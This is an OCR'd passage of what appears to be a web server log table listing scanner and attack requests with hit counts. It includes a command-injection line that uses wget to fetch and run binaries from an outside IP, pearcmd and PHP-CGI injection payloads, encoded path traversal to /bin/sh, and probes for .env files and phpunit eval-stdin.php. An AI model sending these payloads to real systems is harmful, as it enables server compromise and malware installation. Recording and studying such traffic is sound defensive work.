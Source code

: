 |  92 |                     4 | GET /login.html HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                               |
|  93 |                     4 | GET /.env.prod HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                |
|  94 |                     4 | GET /index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?echo(md5(\x22hi\x22));?>+/tmp/index1.php HTTP/1.1                                                                                                                                                                                                                                                                                                                            |
|  95 |                     4 | GET /.env.stage HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                               |
|  96 |                     4 | GET /vendor/phpunit/phpunit/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                           |
|  97 |                     4 | GET /shell?killall+-9+arm7;killall+-9+arm4;killall+-9+arm;killall+-9+/bin/sh;killall+-9+/bin/sh;killall+-9+/z/bin;killall+-9+/bin/bash;cd+/tmp;rm+arm4+efefa7;wget+http:/\x5C/176.65.140.135/efefa7;chmod+777+efefa7;./efefa7+jaws;wget+http:/\x5C/176.65.140.135/drea4;chmod+777+drea4;./drea4+jaws HTTP/1.1                                                                                                                                                          |
|  98 |                     4 | GET /vendor/phpunit/phpunit/LICENSE/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                            |
|  99 |                     4 | POST /cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/bin/sh HTTP/1.1                                                                                                                                                                                                                                                                                                                                 |
| 100 |                     4 | POST /hello.world?%ADd+allow_url_include%3d1+%ADd+auto_prepend_file%3dphp://input HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                             |
| 101 |                     4 | POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/sh HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                        |
| 102 |                     4 | GET /tests/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                 |
| 103 |                     4 | GET /zend/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                  |